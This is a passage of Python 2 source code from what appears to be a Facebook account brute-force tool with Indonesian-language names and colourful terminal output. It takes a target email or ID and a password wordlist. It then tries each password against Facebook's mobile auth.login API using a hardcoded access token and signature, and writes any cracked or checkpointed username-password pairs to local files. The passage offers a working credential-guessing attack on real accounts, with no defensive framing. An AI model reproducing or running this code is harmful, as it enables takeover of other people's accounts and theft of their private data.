             email = raw_input('\x1b[1;91m[+] \x1b[1;92mID\x1b[1;97m/\x1b[1;92mEmail \x1b[1;97mTarget \x1b[1;91m:\x1b[1;97m ')
            passw = raw_input('\x1b[1;91m[+] \x1b[1;92mWordlist \x1b[1;97mext(list.txt) \x1b[1;91m: \x1b[1;97m')
            total = open(passw, 'r')
            total = total.readlines()
            print '\x1b[1;31;40m \xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85'
            print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mTarget \x1b[1;91m:\x1b[1;97m ' + email
            print '\x1b[1;91m[+] \x1b[1;92mTotal\x1b[1;96m ' + str(len(total)) + ' \x1b[1;92mPassword'
            jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mPlease wait \x1b[1;97m...')
            sandi = open(passw, 'r')
            for pw in sandi:
                try:
                    pw = pw.replace('\n', '')
                    sys.stdout.write('\r\x1b[1;91m[\x1b[1;96m\xe2\x9c\xb8\x1b[1;91m] \x1b[1;92mTry \x1b[1;97m' + pw)
                    sys.stdout.flush()
                    data = requests.get('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=' + email + '&locale=en_US&password=' + pw + '&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
                    mpsh = json.loads(data.text)
                    if 'access_token' in mpsh:
                        dapat = open('Brute.txt', 'w')
                        dapat.write(email + ' | ' + pw + '\n')
                        dapat.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                        print 52 * '\x1b[1;97m\xe2\x95\x90'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                    elif 'www.facebook.com' in mpsh['error_msg']:
                        ceks = open('Brutecekpoint.txt', 'w')
                        ceks.write(email + ' | ' + pw + '\n')
                        ceks.close()
                        print '\n\x1b[1;91m[+] \x1b[1;92mFounded.'
                        print '\x1b[1;36;40m \xe2\x98\x85\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x95\x90\xe2\x98\x85'
                        print '\x1b[1;91m[!] \x1b[1;93mAccount Maybe Checkpoint'
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mUsername \x1b[1;91m:\x1b[1;97m ' + email
                        print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mPassword \x1b[1;91m:\x1b[1;97m ' + pw
                        keluar()
                except requests.exceptions.ConnectionError:
                    print '\x1b[1;91m[!] Connection Error'
                    time.sleep(1)
